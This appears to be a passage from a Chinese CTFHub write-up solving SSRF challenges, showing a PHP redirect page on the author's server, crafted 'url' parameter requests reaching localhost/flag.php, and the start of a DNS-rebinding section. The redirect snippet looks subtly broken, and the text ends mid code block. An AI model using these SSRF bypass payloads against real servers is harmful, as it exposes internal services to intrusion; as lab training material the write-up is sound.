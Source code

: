 ```

![image-20250420002245057](image-20250420002245057.png)

**flag:ctfhub{83543fbfc136ce38c99b0eef}**

## 302跳转 Bypass

![image-20250420003445531](image-20250420003445531.png)

虽然说了是302跳转但也可以不用302跳转，有两中方法

### 方法1

去自己的vps上的网站上新建个页面

``` php
<?php
if(isset($_GET['url'])){
    header("Location: {$_GET['http://127.0.0.1/flag.php']}");
    exit;
}
?>
```

```http://challenge-f16e2f72d68913ad.sandbox.ctfhub.com:10800/?url=catblog.ggff.net/ctf/zd.php```

![image-20250420011447151](image-20250420011447151.png)

### 方法2

file看一下源码

![image-20250420011557649](image-20250420011557649.png)

![image-20250420011623517](image-20250420011623517.png)

发现对localhost并没有过滤

访问```http://challenge-f16e2f72d68913ad.sandbox.ctfhub.com:10800/?url=localhost/flag.php```

![image-20250420011808330](image-20250420011808330.png)

**flag:ctfhub{6fccc197195e2c5860463261}**

# SSRF（二）

## DNS重绑定 Bypass

**题目：**

![image-20250426171107605](image-20250426171107605.png)

附件：[浅谈DNS重绑定漏洞 - 知乎](https://zhuanlan.zhihu.com/p/89426041)        附件详细介绍了DNS重绑定的漏洞

先看一下flag.php,只能内网访问

![image-20250426172155794](image-20250426172155794.png)

file看一下

```php

<?php

```